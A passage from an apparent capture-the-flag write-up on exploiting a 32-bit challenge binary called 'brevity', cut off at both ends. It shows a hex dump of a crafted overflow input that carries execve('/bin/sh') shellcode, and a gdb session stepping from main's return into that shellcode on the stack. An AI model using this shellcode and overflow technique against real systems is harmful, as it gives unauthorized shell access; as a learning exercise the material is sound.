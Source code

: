 Now we modify our Python code to reflect the new start address and it will work in `gdb` on the server:
```
ameise@shell:/tmp/ameise$ nano solve.py
[...]
BUFFERSTART = 0xffff1334
[...]
ameise@shell:/tmp/ameise$ python solve.py 
ameise@shell:/tmp/ameise$ cat input | xxd
0000000: 6161 6161 6161 6161 6161 6161 6161 6161  aaaaaaaaaaaaaaaa
0000010: 5813 ffff 31d2 31c9 bb67 13ff ff31 c0b0  X...1.1..g...1..
0000020: 0bcd 802f 6269 6e2f 7368 00              .../bin/sh.
ameise@shell:/tmp/ameise$ gdb /home/problems/ffea9c42b57ff63588ae3542bd0b0d9b/brevity_9/brevity -q
Reading symbols from /home/problems/ffea9c42b57ff63588ae3542bd0b0d9b/brevity_9/brevity...(no debugging symbols found)...done.
(gdb) set disassembly intel
(gdb) disas main
Dump of assembler code for function main:
   0x080480aa <+0>:	sub    esp,0x10
   0x080480ad <+3>:	mov    edx,0x38
   0x080480b2 <+8>:	mov    ecx,esp
   0x080480b4 <+10>:	mov    ebx,0x0
   0x080480b9 <+15>:	mov    eax,0x3
   0x080480be <+20>:	int    0x80
   0x080480c0 <+22>:	mov    ebx,0x1
   0x080480c5 <+27>:	mov    eax,0x4
   0x080480ca <+32>:	int    0x80
   0x080480cc <+34>:	add    esp,0x10
   0x080480cf <+37>:	ret    
End of assembler dump.
(gdb) break *0x080480cf
Breakpoint 1 at 0x80480cf
(gdb) display/3i $eip
1: x/3i $eip
<error: No registers.>
(gdb) run < input
Starting program: /home/problems/ffea9c42b57ff63588ae3542bd0b0d9b/brevity_9/brevity < input
aaaaaaaaaaaaaaaaX��1�1ɻg��1��
                               /bin/sh
Breakpoint 1, 0x080480cf in main ()
1: x/3i $eip
=> 0x80480cf <main+37>:	ret    
   0x80480d0:	add    BYTE PTR [esi],ch
   0x80480d2:	jae    0x804814d
(gdb) si
0xffff1358 in ?? ()
1: x/3i $eip
=> 0xffff1358:	xor    edx,edx
   0xffff135a:	xor    ecx,ecx
   0xffff135c:	mov    ebx,0xffff1367
(gdb) si
0xffff135a in ?? ()
1: x/3i $eip
=> 0xffff135a:	xor    ecx,ecx
   0xffff135c:	mov    ebx,0xffff1367
   0xffff1361:	xor    eax,eax
(gdb) si
0xffff135c in ?? ()
1: x/3i $eip
=> 0xffff135c:	mov    ebx,0xffff1367
   0xffff1361:	xor    eax,eax
   0xffff1363:	mov    al,0xb
(gdb) si
0xffff1361 in ?? ()
```